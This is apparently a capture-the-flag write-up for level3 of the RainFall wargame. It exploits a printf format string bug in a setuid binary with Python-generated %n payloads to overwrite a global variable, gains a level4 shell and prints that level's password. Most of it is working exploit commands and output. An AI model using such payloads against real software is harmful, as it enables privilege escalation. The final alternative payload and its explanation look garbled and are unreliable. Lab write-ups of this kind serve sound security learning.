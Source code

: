level3
======

*	We spawn with a [level3](source/level3) executable
	```console
	level3@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
	level3@RainFall:~$ ./level3 
	█
	```
*	Let's take a look at the code in gdb
	```gdb
	(gdb) info functions
	All defined functions:
	...
	0x080484a4  v
	0x0804851a  main
	...
	```
*	We have two functions `v` and `main`
	-	`main` just calls `v`
	-	`v` does many things :
		-	declares a var of `520` char
		-	`fgets()` on it with a max size of 512 (fgets is overflow protected because of bound checking)
		-	`printf` the variable
		-	check if the global var `m` is equal to `0x40`
			-	if so execute a shell
*	Important thing here is also that `printf()` is vulnerable to [format string exploit](https://owasp.org/www-community/attacks/Format_string_attack) !
	```console
	level3@RainFall:~$ ./level3 
	%x %x %x
	200 b7fd1ac0 b7ff37d0
	level3@RainFall:~$ ./level3 
	aaaa %x %x %x %x %x %x
	aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
	Here we can see our string `aaaa` at fourth position `61616161`
*	So we want to make the condition succeed, we need to make sure the content of m is of 64 bytes
*	We will be using the `%n` modifier which we can specify the address like so `%[address]$n`
*	Now let's not forget the little endian rule with the address of `m` and try to replace `aaaa` with it
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test | ./level3
	� 200 b7fd1ac0 b7ff37d0 804988c
	```
	Ok it worked
*	We now need to calculate our format string :
	-	address of m -> 4 bytes
	-	random data -> 60 bytes
	not too hard here
*	We now got everything we need, let's and this level :
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test - | ./level3
	�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	Wait what?!
	whoami
	level4
	cat /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	```
*	There are two other ways to do this :
	-	Use the bytes printed with the `%x` to add bytes to the count without random char
		```console
		level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 41 + "%x%x%x$n"' > /tmp/test
		```
		Those flags are 19 bytes heavy when we print them `(200 b7fd1ac0 b7ff37d0) -> 19` so we end up adding only 41 bytes.
	-	And the last is to use the `%d` specifier, from what I understood, it shares the same `count` as the `%n` specifier and so it "prints" the char needed to obtain the number you want without really printing it (avoiding space limitations and using my brain to count the bytes)
		```console
		level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%d64$4$n"' > /tmp/test
		```